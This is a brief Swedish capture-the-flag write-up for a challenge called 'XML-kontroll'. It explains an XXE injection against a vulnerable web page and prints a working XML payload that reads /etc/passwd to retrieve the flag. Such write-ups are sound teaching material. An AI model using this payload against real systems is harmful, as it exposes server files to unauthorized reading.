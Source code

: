# XML-kontroll

En webbsida som är sårbar för XML eXternal Entity (XXE)-injektion: https://en.wikipedia.org/wiki/XML_external_entity_attack

Ett av exemplen på Wikipedia visar hur man kan läsa ut `/etc/passwd`. Att använda det rakt av ger felet `Unicode strings with encoding declaration are not supported`, men genom att ta bort `encoding=`-attributet likt nedan får man ut flaggan:
```xml
<?xml version="1.0"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```
